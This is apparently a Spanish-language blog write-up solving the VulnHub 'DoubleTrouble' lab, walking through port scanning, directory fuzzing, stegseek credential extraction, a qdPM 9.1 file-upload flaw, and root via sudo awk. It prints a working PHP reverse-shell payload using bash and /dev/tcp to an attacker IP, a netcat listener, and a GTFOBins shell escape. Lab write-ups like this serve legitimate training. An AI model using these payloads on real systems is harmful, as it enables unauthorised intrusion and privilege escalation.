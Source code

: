 ```yaml
---
title: DoubleTrouble
date: 2024-07-20
categories: [WRITEUPS, VulnHub]
tags: [stegseek, metadatos]  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.152 -n -Pn -v
```

![picture](/assets/images/vulnhub/double1.png){: w="600" h="300" }

Al no encontrar ningún puerto que nos interese para utilizar los scripts de *NMAP*, nos iremos a la página web para ver de que se trata.

Tenemos un panel de autenticación de qdPM 9.1, pero no encuentro nada interesante.

![picture](/assets/images/vulnhub/double2.png)

Realizando **Fuzzing** con **Gobuster**, encuentro las siguientes entradas.

```bash
gobuster dir -u http://192.168.1.152/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/double3.png)

En la ruta ***/secret/*** encontramos la siguiente imagen.

![picture](/assets/images/vulnhub/double4.png){: w="600" h="300" }

Nos la vamos a descargar para ver si hubiera **metadatos**.

```bash
wget http://192.168.1.152/secret/doubletrouble.jpg
```

Con la herramienta ***stegseek***, que podemos encontrar en [**GitHub**](https://github.com/RickdeJager/stegseek), extraemos los **metadatos**.

![picture](/assets/images/vulnhub/double5.png)

Nos encuentra la *passphrase*, y otro archivo cuyo nombre original es "**creeds.txt**", y actualmente llamado "**doubletrouble.jpg.out**", el cual contiene credenciales.

![picture](/assets/images/vulnhub/double6.png)

---

## **Explotación**

A continuación, probaremos en el panel de autenticación con las credenciales encontradas en los metadatos de la imagen. 

Y obtenemos acceso dentro de la plataforma de **qdPM**.

![picture](/assets/images/vulnhub/double7.png)

Buscando en internet, encuentro una *vulnerabilidad* para esta versión, la cual podremos subir archivos **PHP** en la foto de los detalles de la cuenta.

Lo siguiente, será subir una **Reverse Shell**.

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
?>
```

![picture](/assets/images/vulnhub/double8.png)

Al subirlo nos saldrá un error, pero aun así se habrá subido correctamente.

![picture](/assets/images/vulnhub/double9.png)

Nos ponemos en escucha con **Ncat** con un **Listener**.

```bash
nc -nlvp 4444
```

Y nos dirigimos a la ruta de los archivos subidos de los usuarios, clicamos en la **Reverse Shell** para que se ejecute.

![picture](/assets/images/vulnhub/double10.png){: w="500" h="200" }

Y estaremos dentro del servidor como el usuario **www-data**.

![picture](/assets/images/vulnhub/double11.png)

---

## **Escalada de privilegios**

Buscando por el servidor, no encontramos ningún usuario más allá de **www-data** y **root**, ni nada interesante.

Listando los permisos de **SUDO** del usuario **www-data**, vemos que no necesita contraseña para el binario ***awk***.

![picture](/assets/images/vulnhub/double12.png)

En la web [**GTFOBins - awk**](https://gtfobins.github.io/gtfobins/awk/), nos muestra como escalar privilegios.

Ejecutamos el siguiente comando, y nos migrará al usuario **root**.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![picture](/assets/images/vulnhub/double13.png)